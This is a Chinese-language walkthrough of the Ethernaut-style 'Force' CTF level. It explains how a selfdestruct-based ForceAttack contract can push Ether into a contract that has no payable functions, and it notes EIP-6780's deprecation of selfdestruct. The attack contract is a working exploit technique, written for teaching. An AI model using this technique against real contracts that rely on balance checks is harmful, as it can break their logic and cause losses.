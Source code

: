 # 7. Force
### 原题
```
有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)_/¯
这一关的目标是使合约的余额大于0
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
### 分析
上面的合约果然就是这么任性，什么都没写，是不会写，还是不会写...
如果给他付款，他没有任何可接收付款的方法。没有receive() payable{}
也没有fallback() payable{}。
就像老农卖菜，他没有二维码，你没有现金，这个交易怎么做。
合约上有个自毁方法，销毁自己，把余额全部转给指定账户，这个账户强行接受转账。
这个有点像家族继承，一人升天，不管是国内的正房，还是国外的私生，都给我接受一笔遗产继承，无条件！
那么我们也来扮演个创世主，创造一个有钱的主，来个死后瓜分遗产的故事吧：）
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
  address force;

  constructor(address _force) payable {
    force = _force;
  }

  function attack() public  payable {
    
     address payable f = payable(force);

     selfdestruct(f);
  }

  receive() external payable { }
  fallback() external payable { }
}
```
### 注意
Warning: "selfdestruct" has been deprecated. Note that, starting from the Cancun hard fork, the underlying opcode no longer deletes the code and data associated with an account and only transfers its Ether to the beneficiary, unless executed in the same transaction in which the contract was created (see EIP-6780). Any use in newly deployed contracts is strongly discouraged even if the new behavior is taken into account. Future changes to the EVM might further reduce the functionality of the opcode.
大家自己翻译看看，大致就是不再推荐使用"selfdestruct"了，在后期的EVM版本中会逐步限制或者减少"selfdestruct"的功能。

### 总结
如果是合约里有依赖使用“address(this).balance > 0”，那这个破解方法就很有作用了。